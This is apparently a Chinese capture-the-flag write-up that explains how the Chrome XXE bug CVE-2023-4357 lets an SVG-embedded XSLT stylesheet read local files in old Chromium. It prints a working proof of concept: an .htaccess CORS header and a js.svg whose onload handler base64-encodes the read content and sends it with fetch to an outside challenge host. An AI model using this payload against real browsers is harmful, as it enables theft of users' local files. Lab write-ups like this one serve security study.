 ![](xssbot1/docker_desktop_vuln.png)

这么多洞要打哪个呢，其实我大概能猜到。这个题需要一个跨域（`file://`）的任意文件读取，而最近刚好爆出过一个高版本Chrome（`<116.0.5845.96`）的XXE漏洞，CVE-2023-4357，可以做到这一点，原理是引入外部实体时，本来应该做跨域检查，但是如果实体引入是通过`document`语法出现在在被svg引入的xsl模板文件里，xslt库就忽略了这个检查，因而可以跨域读取任意本地文件（非沙箱模式是真的任意读取，沙箱模式也能读取`/etc/passwd`）。（顺便一提，这个洞在国内安全新闻报导中画风都是这样的：[【核弹级漏洞预警】苹果、微信、支付宝、小米浏览器、携程应用等均存在任意文件读取漏洞](https://cn-sec.com/archives/2219576.html)，因为微信/支付宝等许多国内应用在这个洞爆出4个多月后还能打，我那几天看到新闻后自己试了一下，安卓微信浏览器是可以复现的）。而因为debian 10已经不再维护，chromium大版本也停在了90，因此默认软件源安装的chromium一定是可以打通的。

话虽如此，我并没有成功复现这篇公众号里的POC。当然，我跑通了[https://crbug.com/1458911⁠](https://crbug.com/1458911⁠)里的这个双文件，php不重要主要是为了加一个CORS头，我最终的也是在这个基础上改的。本地测试把chromium回显打开，确认了确实可以本地文件读取后，最后一步就是把结果带出去了，这需要一个js代码执行。这里有些坑，比如引入xml的script标签是不会作为js代码被执行的！甚至有时候加的东西太多会让本地文件读取本身都失效（不知道是语法错误还是触发WAF了，有点玄学成分在）。我其实感觉用另一个html包含那个有问题的svg是可以的，但是我最后是在svg的onload字段里执行了一个`fetch`。flag内容确实也就是这个CVE，这是预期解（不过u1s1这个应该不叫XSS吧，顶多算钓鱼链接，我提交的网页里只有一个`location.href=xxxx`，其他所有内容都在我自己的Apache网页上）

.htaccess
```
Header add Access-Control-Allow-Origin "*"
```

js.svg
```xml
<?xml version="1.0" encoding="UTF-8"?>
<?xml-stylesheet type="text/xsl" href="?#"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">

<xsl:template match="/">

  <svg width="1000%" height="1000%" version="1.1" xmlns="http://www.w3.org/2000/svg" onload="a=document.querySelector('#flag').innerHTML; d=encodeURIComponent(btoa(a)); fetch('http://8fef4cb7-6b66-4ce5-8c29-e3b5f82b3d37.node4.buuoj.cn:81/?k='+d)">
    <foreignObject class="node" font-size="18" width="100%" height="100%">
    <body xmlns="http://www.w3.org/1999/xhtml">
      <xmp><xsl:copy-of  select="document('http://8fef4cb7-6b66-4ce5-8c29-e3b5f82b3d37.node4.buuoj.cn:81/xsl2.html')"/></xmp>
    </body>
    </foreignObject>
  </svg>

  </xsl:template>
</xsl:stylesheet>
```

